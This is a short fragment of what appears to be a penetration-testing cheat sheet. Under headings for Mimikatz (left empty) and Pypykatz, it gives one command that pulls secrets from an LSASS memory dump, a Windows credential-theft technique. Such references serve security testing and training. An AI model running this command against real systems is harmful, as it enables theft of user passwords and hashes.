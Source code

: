 # Mimikatz

## Mimikatz


## Pypykatz

Get secrets from memory dump
```
pypykatz lsa minidump --grep lsass.DMP
```